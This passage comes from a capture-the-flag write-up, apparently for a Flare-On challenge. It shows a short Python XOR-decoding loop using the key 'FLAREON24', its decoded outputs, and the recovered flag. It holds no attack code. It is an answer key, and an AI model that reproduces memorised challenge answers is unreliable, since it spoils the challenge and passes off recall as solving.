  b"\1#.6e;&[Z!l5:,<n[Gf#/r1'+\x12@#?5< ;",
]

for g in gibberish:
  print(repr(bytes([a ^ b for a, b in zip(g, b'FLAREON24'*80)])))
```

```
b'\x07v;)y3sxd\x08\x127\x16\x10(_bj Y{\x07zXr\x0feS-\x14\x0b\x04"w|v%\'=\x13g*.8X#/'
b'N0t_3v3n_DPRK_i5_Th15_1337_1n_Web3@flare-on.com'
b'I wish this was the flag'
b'Yet more noise!!'
b'Good thing this is on the testnet'
```

So the flag is: `N0t_3v3n_DPRK_i5_Th15_1337_1n_Web3@flare-on.com`
___
